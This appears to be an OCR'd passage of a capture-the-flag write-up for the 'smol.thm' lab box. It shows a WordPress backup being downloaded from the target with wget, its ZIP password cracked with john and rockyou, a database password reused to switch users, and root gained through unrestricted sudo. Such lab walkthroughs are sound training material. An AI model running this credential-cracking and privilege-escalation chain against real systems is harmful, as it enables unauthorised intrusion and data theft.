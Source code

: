 #### WordPress Backup Analysis

Transferring the backup:
```bash
python3 -m http.server 8000

# On attacker machine:
wget http://smol.thm:8000/wordpress.old.zip
```

Cracking the ZIP password:
```bash
zip2john wordpress.old.zip > hash2

john hash2 --wordlist=/usr/share/wordlists/rockyou.txt
```

Extracting and analyzing:
```bash
unzip -P '[REDACTED]' wordpress.old.zip

cat wordpress.old/wp-config.php

#define( 'DB_PASSWORD', '[REDACTED]' );
```
Found Xavi's password.

Switching to `xavi`:
```bash
su xavi

id
#uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
```

#### Root Access
Checking sudo privileges:
```bash
sudo -l

#User xavi may run the following commands without password:
    (ALL : ALL) ALL
```

privilege escalation:
```bash
sudo su

id
#uid=0(root) gid=0(root) groups=0(root)
```

#### Root Flag:
```bash
cat /root/root.txt 
[REDACTED]
```
